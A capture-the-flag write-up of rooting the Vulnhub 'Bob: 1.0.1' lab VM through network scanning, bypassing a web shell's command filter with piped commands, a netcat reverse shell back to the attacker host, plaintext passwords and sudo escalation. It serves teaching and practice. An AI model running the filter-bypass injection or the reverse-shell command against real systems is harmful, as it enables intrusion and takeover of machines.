

<style> 
    body { 
        background-color: white; 
        color: black;
        margin-top: 2cm;
        margin-left: 1.5cm;
        margin-right: 1.5cm;
    }
    .custom-bold {
        font-weight: bold;
    }
    .horizontal-line {
        border-top: 1px solid black;
    }
</style>

# <span class="custom-bold">Gaining root access on Bob: 1.0.1 VM through insecurely stored credentials</span>

Gaining root privileges on a web server with the ultimate goal of capturing a flag is the aim of this demo.
The target is a vulnerable web server running within the [Bob: 1.0.1](https://www.vulnhub.com/entry/bob-101,226/) virtual machine, publicly available on [Vulnhub](www.vulnhub.com) platform. 

The walkthrough [Hack The Bob: 1.0.1](https://www.hackingarticles.in/hack-the-bob-1-0-1-vm-ctf-challenge/) is the baseline of the following report.

# Threat Model

The threat model of this demo is that the attacker (a Kali Linux virtual machine) is physically present in the same local network of the target and has the ability to communicate with it through TCP connections.  

# Contents

- [**Discovery**](#discovery) &rightarrow; network scanning and services enumeration
- [**Initial Access**](#initial-access) &rightarrow; exploit RCE vulnerability on web application
- [**Execution**](#execution) &rightarrow; spawn reverse shell using Netcat
- [**Credential Access**](#credential-access) &rightarrow; use of legitimate credentials stored insecurely in the machine
- [**Privilege Escalation**](#privilege-escalation) &rightarrow; abuse of high privileges valid accounts


### Discovery
The initial step involves scanning the local network to find the IP address of the target machine, this is taken executing the following command

```bash
netdiscover -r 10.0.2.0/24
```
it invokes a tool based on ARP (Address Resolution Protocol) requests that determines online hosts on the network. Parameter `-r` indicates to the tool the runge of IP addresses to scan.

While the Kali machine has IP address `10.0.2.6`, it is determined that _Bob: 1.0.1_ is at `10.0.2.10`.

Following this, the command

```bash
nmap -p- -A 10.0.2.10 
```
is employed. It takes as input the target IP along with specific parameters (outlined below) and provides in output an accurate enumeration of the servers running on target system. For each service it provides port numbers, protocols and other details corresponding to it.   
Command options:
- `-p-` scans all port runge on target machine
- `-A` it enables OS detection, version scanning of services, traceroute, and other advanced detection techniques. Essentially, it gets as much information as possible about the target machine.

The result of `nmap` is shown in the following screenshot.


Remarkable facts:
- a web server is active on port 80,
- there is an SSH server listening on port 25468 

For convenience,  _Bob: 1.0.1_'s IP address is added to file `/etc/hosts` on the Kali machine and linked to the name _hackthebob_.

Upon initial inspection, navigating to `http://hackthebob/` reveals what appears to be a website under construction for an high school.


Despite browsing through all the available pages, no significant information of interest is found.

### Initial Access
Upon closer analysis of `nmap` output detailing the web server, it becomes apparent that it hosts a file named `robots.txt`. Such a file typically contains directives for web crawlers regarding which pages to show or to ignore.

Examining its contents, four entries stand out as disallowed `/login.php`, `/passwords.html`, `/lat_memo.html` and `/dev_shell.php`. Those are interesting names, but further investigation reveals that only `http://hackthebob/dev_shell.php` is worthy: this is a web page featuring a rudimentary shell application named "dev_shell". Users can input commands into the text box and submit them to the server for execution.

The first action taken is testing some basic bash commands to examine how the server reacts. It appears that there's some internal block or filter in place, because commands such as `ls` or `pwd` display an error message, while the `id` command provides a coherent output.

However, by attempting the command `id | ls` it became possible to list files. 
The following picture shows the web interface of `dev_shell.php` file and the output of the `ls` command.


The download of `dev_shell.txt.bak` file, which is likely a backup of `dev_shell.php`, reveals the reason why some commands didn't work. There is a filter consisting in the definition of an array of _bad words_, probably set to prevent unauthorized actions. In other words there's a list of potentially dangerous or restricted commands not allowed to users.


The filter is a very basic and limited security misure and, as a matter of fact, filter circumvention is possible as previously demonstrated with the `id | ls` command. It is based on two factors:
1. In the HTLM file, the PHP code responsible for executing the "security control" is poorly written. The code trims the input command and places it into an array, then executes control check only on the first element of this array, which corresponds to the primary command. This is the vulnerability of the web server.
2. The operund `|`, called _Pipe_, simply takes as input of the second command the output of the first one, but since `ls` doesn't do anything with its input the result of the concatenated command is just the output of `ls`.  
(Other concatenation operators, such as `&`, `&&` and `||` worked as well)

This means that with a carefully constructed input it is possible to exploit the vulnerability of the web server.

### Execution
Since the circumvention has been discovered, it's time to exploit the vulnerability.  
The goal is to open a remote shell of the vulnerable web server on the Kali Linux virtual machine using the Netcat tool, which establishes a TCP connection between the two hosts.

Two steps are involved:

```bash
nc -lvp 6000
```
is run on Kali side. The machine creates a process listening on port 6000 for connection requests, this will be the server side of the TCP connection.  
Command options:
- `-l` specifies the listen mode, for inbound connections;
- `v` stands for "verbose", providing additional information about the session state;
- `-p 6000` specifies the local port number chosen. 

```bash
id | nc -e /bin/bash 10.0.2.6 6000
```

is run in the text box of the target web interface. This command bypasses the filter and initiates a TCP connection: the web server will be the client side of the connection.  
Command options:
- `id |` for filter circumvention;
- `-e /bin/bash` specifies the program to execute after connection, in this case, a Bash shell.
- `10.0.2.6 6000` specifies the hostname and port number of the server side.

Although the attempt aims to establish a remote Bash shell on the Kali virtual machine, the spawned process is only a basic Sh shell. To upgrade it to a more powerful and interactive shell,  on the server side of the connection the following text line is written:


```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This command invokes a Bash shell using the command line Python interpreter. 

The established shell is a reverse shell since the server side is on the attacker's machine, and it is the target side that initiates the connection to the attacker.

Now it is possible navigate the file system of _Bob: 1.0.1_ machine. The current account is `www-data`, but it is needed to gain higher privileges to complete the challenge, in fact moving to the root directory of the file system and listing files with `ls -l` command it's possible to see that the `flag.txt` file can be opened only by root account because it is the legitimate owner.

Exploring the `/home` directory reveals additional user accounts: `bob`, `elliot`, `jc`, `seb`.  
Inside Bob's directory (`/home/bob/Documents`), an encrypted file named `login.txt.gpg` and a directory named "Secret" are found. In this directory, on path `/home/bob/Documents/Secret/Keep_Out/No_Lookie_In_Here` there is a script called `notes.sh` that produces a list of apparently no sense phrases.
However, extracting the first letter of each line the word 'HARPOCRATES' is composed (this is the name of an Egyptian divinity), potentially the passphrase for the encrypted file.

All steps from the Netcat connection establishment to this point are shown in the following screenshot.

 

Now it's needed to change account in order to decrypt `login.txt.gpg` because the current account `www-data` is not allowed.

In `/home/elliot` there is a file, `theadminisdumb.txt`, that contains a long text with embedded two user's password. 
According to this file Elliot's account has password 'theadminisdumb', while the Jc's one has password 'Qwerty' (this second password is out of scope for this demo).

### Credential Access
To test this information, the command `su elliot` is run and, after inserting the password, the current account changes to Elliot's.  
It turns out that he has permission for decrypting the `.gpg` file, so the following command is run to attempt it.

```bash
gpg --batch –-passphrase HARPOCRATES -d login.txt.gpg
```

Command options:
- `--batch` runs the command in batch mode, eliminating the need for user interaction during execution;
- `–-passphrase HARPOCRATE` specifies the passphrase for decryption;
- `-d login.txt.gpg` is to specify that decryption is requested on that file.

The decryption succeeded, thanks to the correct passphrase.
With the file in clear it is possible to read Bob's password which is 'b0bcat_'.

All the steps mentioned are shown in the following screenshot.



### Privilege Escalation
With the ability to change accounts and impersonate Bob, it's discovered that Bob is a user with root privileges, unlike Elliot.

It is important to notice that Bob is not the owner of the file `flag.txt`, so capturing the flag isn't currently feasible.  
However since Bob is a superuser, by simply executing `sudo su` the root account is obtained: this allow to capture the flag and conclude the challenge.  


<div class="horizontal-line"> <br> </div>     

From the output of `nmap` command, it's remarkable that there is another server active on the machine: an SSH server running on a non-standard port, 25468.
This custom port selection may be for security purposes or to obscure its presence.

An SSH connection attempt to _Bob: 1.0.1_ using Bob's account succeeds with the following command:

```bash
ssh -p 25468 bob@hackthebob
``` 

This single-line command provides direct access to the web server, bypassing the need for interaction with the online web interface.


A large set of credentials assure a form of persistence over the web server as long as users keep the same passwords and the TCP connection remains stable.  
However, with root privileges, it could be possible to change credentials, or add accounts and more to obtain real persistence. Yet, for the purpose of this demonstration, such actions are not within the scope of interest.


<div class="horizontal-line"></div>

Cristina Visentin
